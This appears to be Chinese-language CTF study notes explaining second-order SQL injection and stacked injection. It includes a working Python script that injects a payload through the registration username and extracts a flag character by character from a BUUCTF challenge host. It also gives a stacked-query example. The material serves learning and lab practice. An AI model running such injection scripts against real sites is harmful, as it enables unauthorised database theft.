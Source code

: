 ```plain
这是一个典型的二次注入：
注册用户：添加
邮箱，用户名，密码
insert into user (email,username,password) value('xioadi@163.com','xiaodi','xiaodi')

登录：
邮箱，密码

登录后显示：有个人的用户名
select username from user where email='xiaodi@163.com'
把攻击语句写在username上面，就会形成
select payload（SQL语句） from user where email='xiaodi@163.com'
网上有人自写了一些脚本：
#coding:utf-8
import requests
from bs4 import BeautifulSoup
import time 


url = 'http://735bd6d4-0a6f-4a5d-a508-2af57954e81a.node4.buuoj.cn:81/'

m = ''
for i in range(100):
    payload = "0'+ascii(substr((select * from flag) from {} for 1))+'0".format(i+1)  
    register = {'email':'abc{}@qq.com'.format(i),'username':payload,'password':'123456'}
    login = {'email':'abc{}@qq.com'.format(i),'password':'123456'}
    req = requests.session()
    r1 = req.post(url+'register.php',data = register)
    r2 = req.post(url+'login.php', data = login)
    r3 = req.post(url+'index.php')
    html = r3.text
    soup = BeautifulSoup(html,'html.parser')
    UserName = soup.span.string.strip()
    if int(UserName) == 0:
        break
    m += chr(int(UserName))
    print(m)
    time.sleep(1)

用python310直接运行，下载相对应模块就可以完成flag的获取。
```

![1645253487025-8430fbec-1e17-4fdf-8a7b-2c25af2a730d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104921-1969918044.png)

------

- 堆叠注入-数据库类型&强网杯2019随便注

```plain
根据数据库类型决定是否支持多条语句执行
比如select * from news where id=1;create table xiaodi like news;   执行了两条SQL语句
放在本身执行跟放在代码上执行是不同效果的，要看代码是否支持堆叠注入。如果不支持的话，在代码中堆叠注入不能成功。
支持堆叠数据库类型：MYSQL MSSQL Postgresql等
在数据库中执行select * from users where id=1;create table xiaodi like users;能够成功，但是代码中能不能成功是要看代码是否支持。
```
